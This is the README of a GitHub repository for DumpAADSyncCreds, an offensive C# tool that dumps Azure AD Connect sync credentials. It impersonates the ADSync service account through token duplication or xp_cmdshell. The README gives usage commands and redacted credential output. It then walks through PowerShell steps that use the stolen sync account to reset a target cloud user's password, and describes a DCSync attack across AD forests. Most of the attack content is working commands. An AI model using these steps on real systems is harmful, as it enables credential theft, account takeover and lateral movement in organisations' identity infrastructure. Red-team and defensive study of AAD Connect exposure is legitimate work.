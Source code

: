 # DumpAADSyncCreds
DumpAADSyncCreds is C# implementation of Get-AADIntSyncCredentials from [AADInternals](https://github.com/Gerenios/AADInternals), which extracts Azure AD Connect credentials to AD and Azure AD from AAD connect database.

In late 2019, a change on key storage was deployed such that only ADSync service account could access the key to decrypt configuration file from database.

DumpAADSyncCreds provides two ways to impersonate as ADSync service account:

- execute command via xp_cmdshell by [Adam Chester](https://blog.xpnsec.com/azuread-connect-for-redteam/)
- copy token from miiserver process via DuplicateToken API call by AADInternals

## Usage

```shell
cmd> set PATH=%PATH%;C:\Program Files\Microsoft Azure AD Sync\Bin;
cmd> .\DumpAADSyncCreds.exe print_help
DumpAADSyncCreds
More info: https://github.com/Hagrid29/DumpAADSyncCreds
Example:
        set PATH=%PATH%;C:\Program Files\Microsoft Azure AD Sync\Bin;
        DumpAADSyncCreds.exe get_token
Options:
Dump AAD connect account credential in current context:
        DumpAADSyncCreds.exe [raw_output]
Copy token of ADSync service account and dump AAD connect account credential:
        DumpAADSyncCreds.exe get_token [raw_output]
Execute command as ADSync service account via xp_cmdshell:
        DumpAADSyncCreds.exe xp_cmd "\"C:\Program Files\Microsoft Azure AD Sync\Bin\DumpAADSyncCreds.exe\""
Print status of ADSync service:
        DumpAADSyncCreds.exe check_service
```

Duplicate token of ADSync service account

```shell
cmd> .\DumpAADSyncCreds.exe get_token
[+] Opening database: Data Source=(localdb)\.\ADSync;Initial Catalog=ADSync
[+] Obtained ADSync service account token from miiserver process...
==========   AD configuration   ==========
AD Domain 1: XXXXXXX
AD User 1: MSOL_XXXXXXX
AD Password 1: XXXXXXX

==========   AAD configuration   ==========
AAD User 1: Sync_XXXXXXX_XXXXXXX@XXXXXXX.onmicrosoft.com
AAD Password 1: XXXXXXX
```

Execute xp_cmdshell

```shell
cmd> DumpAADSyncCreds.exe xp_cmd "\"C:\Program Files\Microsoft Azure AD Sync\Bin\DumpAADSyncCreds.exe\""
[+] Opening database: Data Source=(localdb)\.\ADSync;Initial Catalog=ADSync
[+] Executed command: EXEC xp_cmdshell '"C:\Program Files\Microsoft Azure AD Sync\Bin\DumpAADSyncCreds.exe"'
[+] Opening database: Data Source=(localdb)\.\ADSync;Initial Catalog=ADSync
==========   AD configuration   ==========
AD Domain 1: XXXXXXX
AD User 1: MSOL_XXXXXXX
AD Password 1: XXXXXXX

==========   AAD configuration   ==========
AAD User 1: Sync_XXXXXXX_XXXXXXX@XXXXXXX.onmicrosoft.com
AAD Password 1: XXXXXXX
```

Print ADSync service status

```shell
cmd> .\DumpAADSyncCreds.exe check_service
Is ADSync service running:      True
ADSync bin path:                C:\Program Files\Microsoft Azure AD Sync\bin\
ADSync service account:         XXXXXXX
ADSync version:                 1.6.16.0
*** ADSync passwords can be read or modified as local administrator only for ADSync version 1.3.xx.xx
```

## Compilation
Add References > Browse > [mcrypt.dll](DumpAADSyncCreds/Lib/mcrypt.dll)

## Use Cases of AAD Connect credentials
#### Lateral move from on-perm to cloud (Reset password of cloud user)
1. Import AADInternal
2. Request an access token for AADGraph
```powershell
ps> $passwd = ConvertTo-SecureString '<password>' -AsPlainText -Force
ps> $creds = New-Object System.Management.Automation.PSCredential ("<Sync_* account>", $passwd) 
ps> Get-AADIntAccessTokenForAADGraph -Credentials $creds - SaveToCache 
```
3. Obtain Immutable ID of target user
```powershell
ps> Get-AADIntGlobalAdmins 
ps> Get-AADIntUser -UserPrincipalName <target user> | select ImmutableId 
```
4. Reset password of target user
```powershell
ps> Set-AADIntUserPassword -SourceAnchor "<Immutable ID>" -Password "P@ss4Hagrid29" -Verbose 
```

#### Lateral move across AD Forest
During different red team engagements, I noted that it is common to have [multiple forests with single Azure AD tenant](https://docs.microsoft.com/en-us/azure/active-directory/hybrid/plan-connect-topologies#multiple-forests-single-azure-ad-tenant) topology for Azure AD Connect. WIth this setup, we could leverage AD DS connector account to compromise trusted forests from another.
1. Locate and compromise AAD connector servers and corresponding connector accounts that synchronizes users from other forests
2. Execute DCSync attack with the connector account against the target forest

## Improvement

- Dirk-jan found a way to remote dump AAD connect account credentials with RPC call. Check details in his [blog post](https://dirkjanm.io/updating-adconnectdump-a-journey-into-dpapi/)

## References

* https://github.com/Gerenios/AADInternals
* https://blog.xpnsec.com/azuread-connect-for-redteam/

